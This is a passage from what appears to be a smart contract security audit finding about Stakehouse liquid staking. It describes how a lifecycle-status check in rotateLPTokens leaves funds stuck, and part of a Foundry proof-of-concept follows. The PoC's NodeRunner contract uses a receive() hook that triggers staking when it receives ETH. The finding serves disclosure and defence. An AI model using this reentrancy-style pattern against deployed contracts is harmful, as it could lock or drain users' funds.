             require(
                validatorStatus == IDataStructures.LifecycleStatus.INITIALS_REGISTERED ||
                validatorStatus == IDataStructures.LifecycleStatus.TOKENS_MINTED,
                "Cannot burn LP tokens"
            );
    ....

Tokens cannot be rotated to other LP tokens because that is not supported in a DEPOSIT_COMPLETE state

`rotateLPTokens`

        function rotateLPTokens(LPToken _oldLPToken, LPToken _newLPToken, uint256 _amount) public {
    ...
            bytes memory blsPublicKeyOfPreviousKnot = KnotAssociatedWithLPToken[_oldLPToken];
    ...
            require(
                getAccountManager().blsPublicKeyToLifecycleStatus(blsPublicKeyOfPreviousKnot) == IDataStructures.LifecycleStatus.INITIALS_REGISTERED,
                "Lifecycle status must be one"
            );
    ...

Funds are stuck, they cannot be taken or used.<br>
The LifecycleStatus is also stuck, tokens cannot be minted.

#### Foundry POC

The POC will showcase the scenario in the diagram.

Add the following contracts to `liquid-staking` folder:<br>
<https://github.com/coade-423n4/2022-11-stakehouse/tree/main/contracts/testing/liquid-staking>

    // SPDX-License-Identifier: MIT

    pragma solidity 0.8.13;

    import { LiquidStakingManager } from "../../liquid-staking/LiquidStakingManager.sol";
    import { TestUtils } from "../../../test/utils/TestUtils.sol";

    contract NodeRunner {
        bytes blsPublicKey1;
        LiquidStakingManager manager;
        TestUtils testUtils;

        constructor(LiquidStakingManager _manager, bytes memory _blsPublicKey1, bytes memory _blsPublicKey2, address _testUtils) payable public {
            manager = _manager;
            blsPublicKey1 = _blsPublicKey1;
            testUtils = TestUtils(_testUtils);
            //register BLS Key #1
            manager.registerBLSPublicKeys{ value: 4 ether }(
                testUtils.getBytesArrayFromBytes(blsPublicKey1),
                testUtils.getBytesArrayFromBytes(blsPublicKey1),
                address(0xdeadbeef)
            );
            // Register BLS Key #2
            manager.registerBLSPublicKeys{ value: 4 ether }(
                testUtils.getBytesArrayFromBytes(_blsPublicKey2),
                testUtils.getBytesArrayFromBytes(_blsPublicKey2),
                address(0xdeadbeef)
            );
        }
        receive() external payable {
            testUtils.stakeSingleBlsPubKey(blsPublicKey1);
        }
    }
